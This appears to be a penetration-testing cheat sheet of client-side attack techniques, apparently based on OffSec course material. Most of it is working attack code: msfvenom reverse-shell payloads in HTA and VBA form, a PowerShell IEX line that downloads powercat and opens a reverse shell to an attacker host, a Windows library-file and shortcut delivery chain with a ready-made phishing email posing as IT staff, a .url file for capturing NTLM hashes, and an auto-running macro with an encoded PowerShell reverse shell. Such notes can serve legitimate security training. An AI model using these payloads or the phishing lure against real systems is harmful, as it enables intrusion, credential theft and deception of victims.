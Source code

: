 ### http application attack(works against Internet Explorer and to some extent Microsoft Edge)
```
1. msfvenom -p windows/shell_reverse_tcp(windows/x64/shell_reverse_tcp,windows/x64/meterpreter/reverse_tcp) LHOST=10.11.0.4 LPORT=4444 -f hta-psh -o evil.hta
```

### office word macro development(vba script)
```
1. msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.4 LPORT=4444 -f vba -o evil
2. open word document and edit macro, copy paste then save as doc,docm
3. open a listener
```

### Evading Protected View
>This Microsoft Word document is highly effective when served locally, but when served from the Internet, say through an email or a download link, we must bypass another layer of protection known as Protected View,1 which disables all editing and modifications in the document and blocks the execution of macros or embedded objects.

### Windows library files
```
kali:
pip3 install wsgidav
mkdir /home/kali/webdav
touch /home/kali/webdav/test.txt
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/

Windows:
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.2(LHOST)</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
Save as config.Library-ms

Create .Ink shotcut file with command:
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.3:8000/powercat.ps1');
powercat -c 192.168.119.3 -p 4444 -e powershell"
Save as automatic_configuration,put it in Lhost's webdav folder

Delivery via email:
Hello! My name is Dwight, and I'm a new member of the IT Team.

This week I am completing some configurations we rolled out last week.
To make this easier, I've attached a file that will automatically
perform each step. Could you download the attachment, open the
directory, and double-click "automatic_configuration"? Once you
confirm the configuration in the window that appears, you're all done!

If you have any questions, or run into any problems, please let me
know!

Lhost: nc -nlvp 4444
Lhost: python3 -m http.server
```
https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PWKR/imgs/clientsideattacks/2ad68e3a33e8ba87b2a27876c2bbf6f5-csa_sc_createshortcut2.png
### Url File Fishing
```
1. Create file called "@hax.url" with following content:
[InternetShortcut]
URL=anything
WorkingDirectory=anything
IconFile=\\192.168.45.188(kali ip)\%USERNAME%.icon
IconIndex=1

2. if SMB share has write permission, upload @hax.url onto smb share
3. sudo responder -I tun0 -Av
Then you get ntlmv2 hash
```
### Office Macro Using Powershell base64 encoded reverse shell
1. Original Powershell Payload
```
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.181:8000/powercat.ps1');powercat -c 192.168.45.181 -p 4444 -e powershell
```
2.![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/1d716a30-3a3b-423a-bc1e-c0c3c346240e)
3. Using python to split and concatenate
```
str = "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAdwA..."
n = 50
for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')
```
4. Copy Macro script and convince victim to enable content
```
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
    Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
        Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
        Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB"
    ...
        Str = Str + "QBjACAAMQA5ADIALgAxADYAOAAuADEAMQA4AC4AMgAgAC0AcAA"
        Str = Str + "gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA"
        Str = Str + "A== "

    CreateObject("Wscript.Shell").Run Str
End Sub
```
